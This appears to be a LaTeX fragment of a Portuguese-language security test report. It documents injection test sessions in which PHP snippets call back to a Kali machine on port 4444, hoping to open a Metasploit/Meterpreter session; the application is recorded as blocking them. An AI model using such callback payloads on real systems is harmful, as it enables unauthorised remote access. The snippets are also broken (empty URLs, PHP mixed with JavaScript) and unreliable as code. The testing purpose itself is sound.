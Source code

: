 \documentclass[
    12pt,               %
    openright,          %
    oneside,            %
    a4paper,            %
    section=TITLE,     %
    english,            %
    french,             %
    spanish,            %
    brazil              %
    ]{abntex2}
\begin{document}
Comando a ser utilizado no XSS, o código abaixo tenta abrir uma conexão do tipo $\lq$GET\rq{} com IP\_do\_kali\_linux na porta 4444.


$\textless$?php


\$curl = curl\_init('');


curl\_exec(\$curl);


curl\_close(\$curl);


?$\textgreater$


Caso não haja o devido tratamento, o listener do Metasploit aberto na porta 4444 deve criar uma conexão entre a máquina hospeda a aplicação e a máquina utilizada para testes



\paragraph*{Resultado esperado}

A aplicação deve realizar o tratamento para impedir o comando de ser executado.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A sessão do Meterpreter, abordado no subcapítulo 3.2, não foi aberta.



\paragraph*{Sessão de teste 3}

Alterar o comando utilizado na Sessão de teste 2 para tentar descobrir o que impediu a sessão do Meterpreter ser aberta.


O código abaixo tenta abrir uma conexão com o IP\_do\_kali\_linux na porta 4444 e caso haja um~erro exibe o problema num pop-up.


$\textless$?php


\$curl = curl\_init('');


if(!curl\_exec(\$curl))\{


~~~~~~~~~~~ javascript:alert(curl\_error(\$curl));


\}


curl\_close(\$curl);


?$\textgreater$
\end{document}
